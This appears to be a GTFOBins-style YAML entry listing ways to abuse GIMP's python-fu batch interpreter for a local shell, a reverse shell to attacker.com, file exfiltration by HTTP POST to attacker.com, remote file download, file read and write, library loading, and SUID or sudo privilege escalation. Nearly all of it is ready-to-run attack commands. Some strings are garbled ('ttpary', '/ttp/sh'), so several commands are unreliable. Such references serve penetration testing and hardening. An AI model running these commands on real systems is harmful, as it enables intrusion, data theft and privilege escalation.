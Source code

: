 ```yaml
---
description: The ttpary hangs after executing the Python code and can be terminated pressing ``ctrl-c``.
functions:
  shell:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
  reverse-shell:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/ttp/sh")'
  file-upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        gimp -idf --batch-interpreter=python-fu-eval -b 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: |
        gimp -idf --batch-interpreter=python-fu-eval -b 'open("file_to_write", "wb").write("DATA")'
  file-read:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'print(open("file_to_read").read())'
  library-load:
    - code: gimp -idf --batch-interpreter=python-fu-eval -b 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid:
    - code: ./gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/ttp/sh", "sh", "-p")'
  sudo:
    - code: sudo gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.system("sh")'
---
```

